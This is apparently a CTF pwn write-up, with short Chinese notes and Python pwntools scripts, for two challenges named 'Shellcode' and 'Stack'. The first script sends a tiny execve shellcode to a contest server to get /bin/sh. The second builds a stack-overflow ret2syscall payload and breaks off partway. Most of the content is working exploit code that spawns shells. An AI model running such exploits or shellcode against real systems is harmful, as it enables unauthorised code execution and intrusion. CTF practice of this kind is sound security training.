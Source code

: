 # Shellcode

除rdi和rip以外全部置零，只能读入0x12长度的shellcode

```Python
from pwn import *

context(arch="amd64", os="linux", log_level="debug")
local = False
elf_path = "./shellcode"
libc_path = ""
if local:
    p = process(elf_path)
else:
    ip, port = "node2.tgctf.woooo.tech:31008".split(":")
    p = remote(ip, int(port))

shellcode = asm('''
    mov al, 0x3b
    add rdi, 0x8
    syscall
''')

# gdb.attach(p)
p.send(shellcode + b'/bin/sh\x00')
p.interactive()
```

# Stack

有一个比较函数，通过这个函数后就可以控制rdi,rax,rdx,可以ret2syscall

![](https://hnusec-team.feishu.cn/space/api/box/stream/download/asynccode/?code=YmNlMThhODZlZjJjMjI5OGM5NDY5M2FmMDBlNDRkYWFfS2xyV3BzY01ialJ0dWNBVnRVVFU3ekoySXl1NGVpYXpfVG9rZW46V2dDbGI1RlhSbzBFSTJ4NUxLR2NHdUFybkZjXzE3NDUxMzcyNjk6MTc0NTE0MDg2OV9WNA)

![](https://hnusec-team.feishu.cn/space/api/box/stream/download/asynccode/?code=NGIzMWRhMWJlNWJhYzc3ZDcxZWI0ZTU0ZWRhNmM4ZGFfMDNRajd5ZWRRRGlXVDlmbVhoS05ETTNReVdjbjZGbjVfVG9rZW46Um56T2J0aVZob0lrRDF4endhdGNGeThJbkhiXzE3NDUxMzcyNjk6MTc0NTE0MDg2OV9WNA)

```Python
from pwn import *
from wstube import websocket

context(arch="amd64", os="linux", log_level="debug")
local = True
elf_path = './stack'
libc_path = './'
if local:
    p = process(elf_path)
    gdb.attach(p, '''
        b *0x4011ff
        b *0x401230
        b *0x4011b6
    ''')
else:
    ip, port = "node1.tgctf.woooo.tech:32106".split(":")
    p = remote(ip, port)
    # p = websocket('wss://tgctf.woooo.tech/api/traffic/FIqeaa6PBG4X6fJy2M9Qf?port=9999')

payload1 = b'/bin/sh\x00' + b"A" * (0x38)
payload1 += p64(59)
payload1 += p64(0x404060)
payload1 += p64(0x0) * 4
p.sendlineafter(b'name?\n', payload1)
p.recvuntil(b'say?\n')
payload2 = b'a' * 0x40
```
